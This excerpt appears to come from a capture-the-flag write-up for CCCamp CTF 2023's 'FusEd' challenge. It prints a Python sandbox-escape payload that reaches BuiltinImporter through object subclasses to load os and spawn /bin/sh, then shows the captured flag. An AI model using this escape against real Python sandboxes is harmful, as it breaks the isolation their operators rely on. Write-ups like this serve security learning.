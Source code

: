 We can now write a code that bypasses the sandbox. The one here is trivial,  
googling "python escape \_\_builtins\_\_ None" yields some results, but you  
might need to read some writeup and adapt the code for the version of python
in  
the challenge. (Tip: `docker run --rm -it python:3.10.5-slim-buster`)

I used such a payload:  
```python3  
code = b'''  
[c for c in ().__class__.__base__.__subclasses__() if c.__name__ ==
'BuiltinImporter'][0]().load_module('os').system('/bin/sh')  
'''  
```

```  
$ cat flag.txt  
ALLES!{inspired by the RoT verification of the LPC54S0xx, cf.
https://www.nxp.com/docs/en/application-note/AN13390.pdf}  
```

Final solve script: [solve.py](./solve.py)

  

### Writeup Author: MrQubo  

Original writeup (https://github.com/justcatthefish/ctf-
writeups/tree/master/2023-08-18-CCCampCTF/FusEd).